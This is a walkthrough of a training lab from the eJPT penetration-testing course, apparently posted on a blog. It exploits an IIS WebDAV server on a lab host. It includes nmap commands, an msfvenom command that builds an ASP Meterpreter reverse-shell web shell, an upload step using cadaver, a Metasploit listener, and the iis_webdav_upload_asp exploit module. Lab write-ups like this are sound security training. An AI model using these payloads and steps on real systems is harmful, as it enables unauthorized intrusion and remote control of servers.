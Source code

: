 ```yaml
---
title: "eJPT - Windows IIS Server WebDav Metasplit Walkthrough & Insights"
date: 2025-03-31 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]
image:
    path: /assets/img/1.gif
    alt: image
---
```


---

## Lab Environment

In this lab environment, you will be provided with GUI access to a Kali machine. The target machine will be accessible at **demo.ine.local**.

**Objective:** Exploit the WebDAV service and retrieve the flag!

**The following username and password may be used to access the service:**

**Credentials:**
```
Username: bob
Passowrd: password_123321
```
# Tools

- Metasploit
- DAVTest
- Cadaver

Let’s with the lab

---

### Video Walkthrough's

{% include embed/youtube.html id='49SaqHOj_Pc' %}


### Service Enumeration using Nmap:

Started with Nmap to discovery the services that are running on the target

command

```bash
nmap -sV -sC demo.ine.local
```

 Breakdown:

- `-sV`: Enables version detection, which identifies the software version running on open ports.
- `-sC`: Runs default scripts (`default` category from NSE - Nmap Scripting Engine).
- `demo.ine.local`: The target domain or hostname.
![alt text](</assets/img/Pasted image 20250331121134.png>)

![alt text](</assets/img/Pasted image 20250331121152.png>)
Narrowed the Nmap scan to the specific port then also used a script that extract some more information form the specific port and it’s services.

```bash
nmap -sV -sC -p 80 --script=http-enum demo.ine.local
```
![alt text](</assets/img/Pasted image 20250331121229.png>)

![alt text](</assets/img/Pasted image 20250331121308.png>)



### Creating a asp shell using msfconsole

![alt text](</assets/img/Pasted image 20250331121345.png>)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=4444 -f asp > shell.asp
```

**Breakdown:**

- `msfvenom` → A payload generator in **Metasploit**, used to create shellcodes, backdoors, and exploits.
- `-p windows/meterpreter/reverse_tcp` → Specifies the **payload**:
    - `windows/meterpreter/reverse_tcp` → A **Meterpreter** reverse shell payload for Windows.
    - `reverse_tcp` → This means the target machine will **connect back** to the attacker's machine (LHOST).
- `LHOST=<YOUR_IP>` → The attacker's **IP address** (listener machine where the reverse shell will connect).
- `LPORT=4444` → The **port number** the shell will connect back to (default: `4444`).
- `-f asp` → Specifies the **format** of the payload (`asp` for an Active Server Page web shell).
- `> shell.asp` → Saves the generated payload as **`shell.asp`** (which can be uploaded to a vulnerable web server).
### Uploading asp file using cadaver

![alt text](</assets/img/Pasted image 20250331121400.png>)


```bash
cadaver <http://demo.ine.local/webdav>
```

**Breakdown:**
- `cadaver` → A **command-line WebDAV client** used to interact with Web Distributed Authoring and Versioning (**WebDAV**) servers.
- `http://demo.ine.local/webdav` → The **URL of the WebDAV server** you want to connect to.
Start the reverse handler for it

#### **Common Commands in Cadaver (Once Connected)**

After connecting, you can use the following commands:

|Command|Description|
|---|---|
|`ls`|List files in the current directory|
|`cd <dir>`|Change directory|
|`put <file>`|Upload a file to the server|
|`get <file>`|Download a file from the server|
|`delete <file>`|Remove a file from the server|
|`mkdir <dir>`|Create a directory on the WebDAV server|
|`rmdir <dir>`|Remove a directory|
|`exit` or `quit`|Close the connection|

Then run the asp file. and we got the access

![alt text](</assets/img/Pasted image 20250331121445.png>)

```bash
service postgresql start && msfconsole 
use multi/handler/
set payload windows/meterpreter/reverse_tcp
set lhost
set lport 
run
```
**Breakdown:**

- `service postgresql start` → Starts the **PostgreSQL database**, which Metasploit uses to store exploits and sessions.
- `&&` → Ensures that **Metasploit Framework (`msfconsole`)** starts **only if** PostgreSQL starts successfully.
- `msfconsole` → Launches the **Metasploit Framework Console** for running exploits and managing sessions.
- - `use multi/handler` → Loads the **multi-handler** module, which is used to receive incoming connections from exploited machines.
- `/` at the end is unnecessary; it should just be `use multi/handler`.
- - `set payload windows/meterpreter/reverse_tcp` → Configures the listener to handle *Windows Meterpreter reverse shell connections**.
- `reverse_tcp` → The target system will **connect back** to the attacker's system.
- - `set LHOST <YOUR_IP>` → Specifies the **attacker's IP address** (where the reverse shell will connect).
- `set LPORT <YOUR_PORT>` → Defines the **port number** to listen for incoming connections (default: `4444`).
- - Starts the listener to **wait for incoming connections** from the target machine.
- Once the target **executes the payload**, the attacker **gains a Meterpreter session**.

![alt text](</assets/img/Pasted image 20250331121502.png>)
---

## Here the version 2 for the same lab!

This version of Metasploit leverages msfconsole modules to automate and simplify the exploitation process, making it much easier for the end user (attacker).
- **Category**: Exploit Module
- **Purpose**: Uploads a malicious ASP shell to an IIS WebDAV-enabled server, allowing remote command execution.

### Starting the msfconsole

```bash
service postgresql start && msfconsole
```

```bash
serach iis upload
use exploit/windows/iis/iis_webdav_upload_asp
set httpusername 
set httppassword
set rhost
set path
run
```

- **Search for IIS Upload Exploits** – Finds available Metasploit modules for exploiting IIS file uploads.
- **Select the IIS WebDAV Upload Exploit** – Loads an exploit that allows uploading malicious ASP files to a WebDAV-enabled server.
- **Set Authentication Credentials (If Required)** – Provides login details if the server requires authentication.
- **Define the Target Host** – Specifies the IIS server’s IP address.
- **Set the Upload Path** – Chooses the directory where the file will be uploaded.
- **Execute the Exploit** – Uploads the ASP shell and attempts to gain remote code execution on the server.
